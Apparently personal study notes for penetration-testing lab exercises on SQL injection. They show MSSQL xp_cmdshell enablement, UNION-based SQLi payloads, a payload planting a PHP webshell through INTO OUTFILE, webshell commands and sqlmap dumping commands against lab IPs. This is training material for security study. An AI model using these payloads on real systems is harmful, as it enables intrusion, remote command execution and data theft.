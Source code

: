 
1. Connect to the MSSQL VM 1 and enable _xp_cmdshell_ as showcased in this Module. Which MSSQL configuration option needs to be enabled before _xp_cmdshell_ can be turned on?

```bash
# IP: 192.168.122.18

# Connect via MSSQL
impacket-mssqlclient Administrator:Lab123@192.168.122.18 -windows-auth

# Command to be run first: 
EXECUTE sp_configure 'show advanced options', 1;
	# Option: show advanced options
```


2. Connect to the MySQL VM 2 and repeat the steps illustrated in this section to manually exploit the UNION-based SQLi. Once you have obtained a webshell, gather the flag that is located in the same **tmp** folder.


```bash
# IP: 192.168.122.19

%' UNION SELECT 'a1', 'a2', 'a3', 'a4', 'a5' -- //
%' UNION SELECT database(), user(), @@version, null, null -- //
' UNION SELECT null, null, database(), user(), @@version  -- //
' union select null, table_name, column_name, table_schema, null from information_schema.columns where table_schema=database() -- //

# Uploading a webshell
' UNION SELECT "<?php system($_GET['cmd']);?>", null, null, null, null INTO OUTFILE "/var/www/html/tmp/webshell.php" -- //                     '

# Accessing the webshell
192.168.122.19/tmp/webshell.php?cmd=id

# Launching a reverse shell
192.168.122.19/tmp/webshell.php?cmd=ls
192.168.122.19/tmp/webshell.php?cmd=cat flag.txt
```
![[Pasted image 20250314204544.png]]



3. Connect to the MySQL VM 3 and automate the SQL injection discovery via sqlmap as shown in this section. Then dump the _users_ table by abusing the time-based blind SQLi and find the flag that is stored in one of the table's records.

```bash
# IP: 192.168.122.19

# SQLmap
sqlmap -u http://192.168.122.19/blindsqli.php?user=1 -p user

# Dumping ALL the data structure
sqlmap -u http://192.168.122.19/blindsqli.php?user=1 -p user --dump
```

![[Pasted image 20250314214415.png]]